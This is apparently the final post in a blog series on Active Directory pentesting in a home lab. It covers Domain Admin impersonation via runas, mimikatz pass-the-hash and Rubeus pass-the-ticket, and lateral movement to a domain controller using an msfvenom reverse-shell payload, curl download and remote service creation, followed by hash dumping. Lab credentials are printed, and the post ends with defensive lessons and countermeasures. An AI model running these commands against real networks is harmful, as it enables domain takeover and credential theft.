We've reached the **end of the road**. In [Part 1](/posts/pentesting-ad-01-environment-setup/) we built the Active Directory lab from scratch —the **CAPSULE.CORP** domain, its DC01 controller, the client machine and the vulnerable configurations—, and in [Part 2](/posts/pentesting-ad-02-enumeration-attacks/) we enumerated it with PowerView and obtained credentials via AS-REP Roasting and Kerberoasting. This third installment **closes the series**: we're going to turn the access we already have into full control of the domain.

In this post we'll **impersonate the user Carolina** —who, as a reminder, is a *Domain Admin*— using tools such as *runas*, *mimikatz* or *Rubeus*. Afterwards we'll use that account to carry out a **lateral movement** that lets us gain control of the domain controller. Finally, we'll go back and explain in more detail what the **Kerberoast** attack consists of, and reflect on why it isn't really a vulnerability of an Active Directory environment as such.

> As in the previous installments, everything is done on our own isolated lab. Reproducing these techniques against third-party systems without explicit authorization is illegal. The purpose is strictly educational and defensive.
{: .prompt-warning }

## User impersonation

To carry out the impersonation we'll connect, through the Windows 10 Enterprise machine, to the **Cliente** computer using the user Pepe's credentials. Once inside, we'll create a `cmd.exe` process with the `runas` command that impersonates Carolina's identity.


_Image 1. Logging in as Pepe on the Cliente machine._


_Image 2. Attempt to access the domain controller as Pepe._

As can be seen in the following image, the user Pepe doesn't have permissions to list the root of the domain controller, since he isn't a *Domain Admin*.


_Image 3. Access denied to the domain controller for Pepe._

The user Carolina, on the other hand, is indeed a *Domain Admin*, as we saw in earlier installments of the blog, so she will be able to access that resource.

### Impersonation using a password

To create the `cmd.exe` process as Carolina, the following `runas` options are used:

- **runas**: a command that lets you run a process within a session as if you were a different user.
- **/netonly**: an option indicating that the credentials entered are for remote access and therefore not local. This option means Windows won't validate the credentials, since they are remote and don't need to exist locally.
- **/user**: specifies the remote user the command will run as, in this case Carolina from the CAPSULE.CORP domain.
- **cmd.exe**: indicates the process to run.

```text
runas /netonly /user:CAPSULE.CORP\Carolina cmd.exe
```


_Image 4. runas command with credentials for Carolina._

Once the process is started, the following image shows how we can now access the domain controller from the Cliente machine, having logged in as Pepe (who has no permissions) and through the previous `runas` command.


_Image 5. Accessing the domain controller as Carolina through runas._

However, to carry out this method it's necessary to know the password of the user to be impersonated, for which other kinds of techniques will be needed. In this particular case, Carolina's password was found in her *Description* attribute, which can be read by everyone.

### Impersonation using an NTLM hash

If the user's password isn't available, the previous process can also be carried out with an **NTLM hash**. The *mimikatz* tool will be used to perform this impersonation.

We may not have the target user's password; however, it's possible that they have logged into our machine via RDP or for some "necessary" reason —for example, an administrator who needs to connect to a user's computer to fix something. If that's the case and the login was recent, the passwords will have been cached by the **LSASS** process, so with mimikatz we can obtain the different hashes from memory using the following commands:

```text
mimikatz # sekurlsa::logonpasswords
```


_Image 6. mimikatz command to dump LSASS._

With that hash we run the following mimikatz command, setting the NTLM, to obtain a `cmd.exe` process as Carolina:

```text
mimikatz # sekurlsa::pth /user:Carolina /domain:DC01 /ntlm:bd35111ab3b0d46129efbdbab06b49c4 /run:cmd
```


_Image 7. mimikatz command for pass-the-hash with Carolina._


_Image 8. cmd session impersonating Carolina with mimikatz._


_Image 9. Checking access to the domain controller._

### Obtaining a TGT ticket to impersonate Carolina

In this last impersonation technique, a session is created with a fake user through the `runas` command discussed in the [Impersonation using a password](#impersonation-using-a-password) section, with the goal of avoiding problems with tickets and caching.

```text
runas /netonly /user:aleatorio\aleatorio cmd.exe
```


_Image 10. runas command with a fake user._

And once in the `cmd` session, *Rubeus* is used to obtain the key derived from Carolina's password, which will be needed to request the TGT ticket:

```text
Rubeus.exe hash /domain:CAPSULE.CORP /user:Carolina /password:Patatas123
```


_Image 11. Obtaining the key from the password using Rubeus._

Once the key is obtained, we run:

```text
Rubeus.exe asktgt /domain:CAPSULE.CORP /user:Carolina /enctype:AES /aes256:<hash> /nowrap /ptt
```

With this command we obtain the TGT ticket for Carolina. To import it into the current session we use:

```text
Rubeus.exe ptt /ticket:<base64ticket>
```

This way we can access the domain controller as an administrator, since Carolina is a *Domain Admin*.

## Lateral movement

In this section we'll build on the previous case, specifically on impersonating Carolina's identity through her password via the `runas` command, with the goal of performing a lateral movement to the domain controller and achieving arbitrary command execution on that system.

To carry out this lateral movement we'll take advantage of Carolina's *Domain Admin* status (confirmed by running the command `dir \\dc01.capsule.corp\C$`) to upload a Meterpreter executable to DC01 and give remote access to that binary by creating a service.

The first step, therefore, is creating the binary from the attacker machine using *msfvenom* with the following configuration:

- **-p**: indicates the *payload* to compile, in this case a *reverse shell* over TCP for a 64-bit Windows.
  - **LHOST**: *payload* configuration option that sets the attacker's local IP that Meterpreter will connect to.
  - **LPORT**: *payload* configuration option that sets the attacker's local port that Meterpreter will connect to.
- **-f**: output file type, in this case a `.exe` executable.
- **-o**: name of the output executable file.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.2.9 LPORT=4444 -f exe -o meter-x64.exe
```


_Image 12. Creating the Meterpreter payload with msfvenom._

To move the executable to the target machine, an HTTP service is set up that makes the binary available through a *directory listing*:

```bash
python3 -m http.server 80
```


_Image 13. HTTP service to serve Meterpreter._

And on the target, the file is downloaded via a GET request with `curl`:

```text
curl http://10.0.2.9/meter-x64.exe --output meter-x64.exe
```


_Image 14. Downloading the Meterpreter binary with curl on the target._

In a more realistic scenario this transfer would happen in some more elaborate and stealthy way —for example, through steganography or some benign service—, but for the purpose of this lab it's considered sufficient.

Meanwhile, on the attacker machine a Metasploit *exploit* of type `multi/handler` is configured along with the same *payload* that was configured for Meterpreter, with the same settings, as shown in the following image.


_Image 15. Meterpreter configuration in Metasploit._

It's then run in the background with `run -j` so the port stays listening for a connection.

To carry out the attack, on the victim machine Carolina's identity is impersonated using the first method discussed (`runas` + credentials) and, once the `cmd.exe` process is created as Carolina, the Meterpreter binary is copied to the domain controller:

```text
copy meter-x64.exe \\dc01.capsule.corp\C$\meter-x64.exe
```


_Image 16. Copying Meterpreter onto the domain controller._

Once the executable has been delivered, a service named *Meter* that runs the Meterpreter file is created and started on **DC01** using `sc.exe`:

```text
sc.exe \\dc01 create Meter binpath=C:\meter-x64.exe
sc.exe \\dc01 start Meter
```


_Image 17. Creating and starting the Meterpreter service on DC01._

After the service is deployed, the attacker machine is notified of a new connection from the domain controller's IP and, with the `sessions` command, we can confirm that we have a connection as `NT AUTHORITY` to **DC01**.


_Image 18. Meterpreter session against DC01._

If we enter session 4, the Meterpreter console opens, letting us interact with the victim and perform all kinds of actions with total control over the system and the domain, such as dumping the hashes.


_Image 19. Hash dump with Meterpreter._

This way we can obtain the `krbtgt` account's hash, with which *Golden Tickets* could be issued, though we'll cover that in future installments of the blog.

## A few words on Kerberoast

The *Kerberoast* attack takes advantage of how the Kerberos protocol works to obtain password hashes of service accounts through TGS-REQ requests, in order to try to «*crack*» them *offline*.

When a user wants to request a service, they make a TGS-REQ request to the KDC with the name of the service they want (the SPN), their session key and their TGT. That is, to make this request an authenticated user with their corresponding TGT and the service identifier or SPN (*Service Principal Name*) is needed.

Once it's verified that the request is correct and the user is authenticated, the KDC returns a TGS-REP that includes, among other things, the *service ticket* (ST) encrypted with the hash of the password of the service's owner, so that the user can consume that service and the service, in turn, can verify that the user may access it.

What's interesting about this process is that any authenticated domain user can request as many STs for as many services as they want with no limitation whatsoever, even if they don't have access to that service. As long as the SPN is known, STs can be requested.

So, with a user's credentials a TGS-REQ can be made and a TGS-REP obtained with the ST encrypted with the hash of the service's password, and we can try to «*crack*» the password hash *offline*.

The reason this attack isn't considered a vulnerability is that it is actually a vital feature in an Active Directory environment. That is, any object that wants to offer a service needs an SPN to uniquely identify that service so other users can find and request it. In addition, in the TGS-REP message the service needs to verify the ST to check that it's valid and that the user has access, which requires it to be signed with the service's password. So in the end, everything comes down to the strength of the password and the company's password policy.

## Conclusion

With this installment we've completed the attack chain from start to finish. Starting from a simple domain user, we've **impersonated the identity** of a *Domain Admin* account (Carolina) through three different routes —with her password via `runas`, with her NTLM hash via *mimikatz* (Pass-the-Hash), and by requesting her TGT ticket with *Rubeus* (Pass-the-Ticket)—, we've carried out a **lateral movement** to the domain controller by deploying a Meterpreter *payload* through a service, and we've ended up with a session as `NT AUTHORITY\SYSTEM` on DC01 and a hash dump that includes the `krbtgt` account: the keys to the kingdom.

### Lessons learned

- **A single privileged credential compromises the entire domain.** The jump from "unprivileged user" to "full control of the DC" depended entirely on obtaining the credentials of a *Domain Admin* account. Protecting and limiting those accounts is the absolute top priority.
- **The hash is as valuable as the password.** Pass-the-Hash and Pass-the-Ticket show that, with Kerberos and NTLM, you don't always need to know the plaintext password: the authentication material left in memory is enough.
- **LSASS is a critical target.** A large part of the attack relies on dumping credentials from memory. Protecting it (Credential Guard, LSA Protection) and minimizing privileged sessions on user machines drastically reduces the attack surface.
- **Kerberoasting isn't a flaw, it's a feature.** As we saw, it's inherent to Kerberos's design; real defense comes down to long, random service passwords (ideally gMSA) and monitoring.
- **The `krbtgt` hash is the worst-case scenario.** It allows forging *Golden Tickets* and maintaining practically indefinite persistence in the domain; its compromise requires a double rotation of the account and assuming the entire domain has fallen.

As practical countermeasures: apply the **principle of least privilege** and a *tiering* model for administrative accounts, enable **Credential Guard** and **LSA Protection**, restrict the use of privileged accounts to dedicated administration machines, use **managed accounts (gMSA)** for services, **monitor** remote service creation and anomalous Kerberos requests, and have a response plan ready for a `krbtgt` compromise.

### Final words for the series

And that wraps up this series on Active Directory pentesting. We've gone through the full cycle: **building** a realistic lab ([Part 1](/posts/pentesting-ad-01-environment-setup/)), **enumerating it and breaking its credentials** ([Part 2](/posts/pentesting-ad-02-enumeration-attacks/)), and finally **impersonating identities and taking control of the domain** ([Part 3](/posts/pentesting-ad-03-lateral-movement-impersonation/)). My intention with these three posts has been twofold: on one hand, to show step by step how an attacker thinks and operates in a corporate Windows environment; on the other —and more importantly— to make clear that almost none of these techniques exploit a software flaw: they exploit **misconfigurations and weak passwords**. Understanding the attack is, in the end, the best way to learn how to defend against it.

Thanks for sticking with me to the end of the series. If you found it useful or have questions, suggestions or ideas for future labs, feel free to reach out. See you in the next project!

## Links to the other parts
- [Part 1 - Environment Setup](/posts/pentesting-ad-01-environment-setup/)
- [Part 2 - Enumeration and Attacks (AS-REP Roasting and Kerberoasting)](/posts/pentesting-ad-02-enumeration-attacks/)
- [Part 3 - Lateral Movement and Identity Impersonation](/posts/pentesting-ad-03-lateral-movement-impersonation/)
